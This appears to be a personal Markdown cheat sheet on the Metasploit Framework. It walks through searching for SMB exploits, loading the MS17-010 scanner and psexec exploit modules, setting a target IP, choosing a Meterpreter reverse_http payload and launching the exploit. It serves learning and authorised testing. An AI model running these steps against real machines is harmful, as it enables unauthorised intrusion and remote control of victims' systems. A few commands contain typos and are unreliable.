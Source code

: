 # Exploit

## Metasploit Framework

- Metasploit is a Framework with containing Many Exploits for certain things, used for Attacking and checking if the machine is vunerable to the exploits and attacks

- Start

    ``` bash
    $ sudo msfconsole
    ```

- Commands:

    - `search <protocol>` search for exploits
        ``` bash
        msf6> search smb
        ```

    - `grep <text> seach <protocol>` Filter through the search results by only showing matching lines

        ``` bash
        # Search for Exploits
        msf6> grep exploit seach smb
        ```

    - `use <exploit>` use the specified exploit

        ```bash
        msf6> use auxiliary/scanner/smb/smb_ms17_010
        msf6> use exploit/windows/smb/ms17_010_psexec
        ```

- Exploit Commands
        
    - `show options` show all the options (they are key-value pair)

        ```bash    
        msf6 auxiliary(scanner/smb/smb_ms17_010) > show options
        msf6 exploit(windows/smb/ms17_010_psexec) > show options
        ```

    - `set <option> <value>` changes an option to value,
            
            (press `TAB` to show all the possible values Doesn't work for some options like RHOSTS)

        ``` bash
        msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.1.150
        msf6 exploit(windows/smb/ms17_010_psexec) > set payload windows/meterpreter/reverse_http
        ```

    - `run` Check if it's vunerable

    - `exploit` Uses The Exploit
